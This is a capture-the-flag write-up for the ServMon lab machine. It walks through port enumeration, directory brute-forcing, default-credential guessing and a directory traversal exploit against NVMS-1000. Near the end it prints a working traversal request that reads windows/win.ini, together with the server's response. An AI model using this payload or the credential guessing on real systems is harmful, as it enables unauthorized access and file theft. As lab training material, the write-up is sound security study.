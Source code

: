 We will know we can find password file on Nathan's dekstop. And second file will tell us Nathan has not been yet completed `Upload the passwords and remove public access to NVMS, and place the secret files in the sharepoint.`

#### 80/tcp http

![[ServMon.htb-03.png]]

It is a login page for NVMS-1000. Try `admin:admin` and `admin:password` but it doesn't work. Let's dig deeper to enumerate more information.

##### dirbuster

Try use feroxbuster to find useful information:

```bash
feroxbuster -u http://ServMon.htb/
```

```bash
gobuster dir -e -u http://ServMon.htb/ -w /usr/share/wordlists/dirb/big.txt -t 20
```

Nothing found.

#### 8443/tcp 

we access `https://servmon.htb:8443/index.html` and find a NSClient++ page

![[ServMon.htb-10.png]]

### Exploitation

#### Seachsploit 

```bash
searchsploit NVMS
```

![[ServMon.htb-04.png]]

#### NVMS-1000 - Directory Traversal

##### python2 script (Failed)

There are a Directory Traversal on NVMS 1000, let's check the exploit 48311 python script.

```bash
searchsploit -m 47774
searchsploit -m 48311
```

We check the details of this Directory Traveral exploit:

```txt
POC
---------

GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 12.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

Response
---------

; for 16-bit app support
```